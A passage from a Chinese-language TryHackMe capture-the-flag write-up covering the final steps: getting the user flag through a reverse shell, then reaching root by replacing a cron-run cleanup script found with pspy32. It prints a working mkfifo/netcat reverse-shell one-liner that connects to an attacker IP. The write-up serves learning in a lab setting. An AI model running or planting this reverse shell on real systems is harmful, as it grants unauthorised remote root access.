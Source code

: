 **一旦我获得了一个反向外壳，我就可以得到用户的标志😃！**

**![](img/cd1e159fe470e6fc6d83e01cfb2bce65.png)**

# **根权限提升**

**我开始寻找将我的权限提升到 root 的方法。在枚举机器时，我发现有一个 cronjob 正在使用工具 **pspy32** 运行清理脚本。**

**![](img/9459f9cdfaca60f3bd059553136adf84.png)**

**我创建了一个新的`cleanupscript.sh` bash 脚本，它创建了一个反向 shell:**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.36.156 1234 >/tmp/f
```

**使用这个具有 root 权限的反向 shell，我现在可以获得 root 标志了😄！**

**![](img/ce79b0b2de65a0e8241f6a95d1c57e2f.png)**

# **结束语**

**找到最初的立足点是挑战中最困难的部分，我花了很长时间才找到。然而，一旦我理解了什么是利用，剩下的挑战就变得相对简单了。我也非常喜欢学习更多关于竞争条件以及如何利用它们的知识。谢谢你阅读到最后，希望你学到了新的东西！**

# **参考**

**[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

